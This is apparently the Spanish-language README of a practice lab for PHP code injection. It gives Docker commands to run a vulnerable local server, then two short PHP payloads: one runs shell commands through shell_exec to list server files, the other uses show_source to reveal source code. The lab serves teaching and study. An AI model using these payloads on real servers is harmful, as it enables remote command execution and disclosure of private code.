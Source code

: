 # Code Injection

Descargar y Montar el servidor desde Docker usando un volumen con el Codigo Fuente de Github para editarlo:

```bash
git clone https://github.com/IngenieroRicardo/CodeInjection
sudo docker-compose up
firefox localhost:8181
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente

